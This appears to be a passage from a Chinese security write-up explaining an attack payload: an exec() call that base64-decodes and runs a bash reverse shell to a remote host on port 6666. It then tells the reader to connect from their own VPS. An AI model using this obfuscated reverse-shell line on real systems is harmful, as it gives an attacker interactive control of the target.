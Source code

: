 ```plain
```

重点 payload 点在这里，通过其反弹 shell，达到任意命令执行

```plain
exec(\"bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==}|{base64,-d}|{bash,-i}\")
```

这段代码是一个使用 bash 反弹 shell 的命令，它使用了 base64 编码来隐藏命令内容。

-   `bash -c`，你可以在命令行中指定一个命令或命令字符串，并要求 bash 解释器执行它。
    
-   `YmFzaCAtaSAmPiAvZGV2L3RjcC8xMTguODkuMTAxLjU2LzY2NjYgMDwmMQ==`：
    
    ```plain
    bash -i &> /dev/tcp/XXX.XX.XX.XX/6666 0<&1
    ```
    
    -   `bash -i`：这是执行一个交互式的 Bash Shell 的命令。
    -   `&>`：这是 I/O 重定向的语法，将标准输出和标准错误输出都重定向到后面指定的位置。
    -   `/dev/tcp/XXX.XX.XX.XX/6666`：这是一个特殊的文件路径，它表示网络套接字。具体来说，`/dev/tcp`是 Linux 中的一个虚拟文件系统，可以用来进行网络通信。
    -   `0<&1`：这是另一个 I/O 重定向，将标准输入（文件描述符 0）指向标准输出（文件描述符 1），这样就可以实现输入和输出的重定向。
    
    综合起来，这段代码的作用是创建一个反向连接，将 Bash Shell 与远程主机上的某个端口进行连接。它将标准输入、标准输出和标准错误输出重定向到网络套接字，从而实现与远程主机的交互式 Shell 会话。
    
-   `base64,-d`：这是一个 base64 解码器的命令，它会将 base64 编码的字符串转换回原始内容。
    
-   `bash,-i`：这是执行一个交互式的 bash shell 的命令。
    

综合起来，这段代码的作用是将经过 base64 编码的命令进行解码，并在本地机器上执行一个交互式的 bash shell。也就是说，它试图建立一个反向连接，使得攻击者可以通过该连接与目标机器进行交互并执行命令。

接着用自己的 VPS 连接，命令执行即可

[![](assets/1700442594-3943ea7ba30598d0d4c8ce7055d52282.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231118155708-12910f30-85e8-1.png)
